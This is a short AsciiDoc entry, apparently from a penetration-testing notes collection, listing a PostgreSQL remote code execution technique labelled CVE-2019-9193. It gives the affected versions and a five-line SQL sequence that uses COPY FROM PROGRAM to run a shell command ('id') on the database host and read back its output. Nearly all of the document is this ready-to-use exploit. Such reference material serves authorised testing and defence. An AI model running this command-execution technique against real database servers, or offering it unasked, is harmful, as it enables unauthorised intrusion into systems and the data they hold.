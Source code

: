=== Postgres

==== Exploits

===== CVE-2019–9193

[cols=">1,3"]
|===
|Affects           |9.3 through 11.2
|Type              |RCE
|===

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM ‘id’;
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
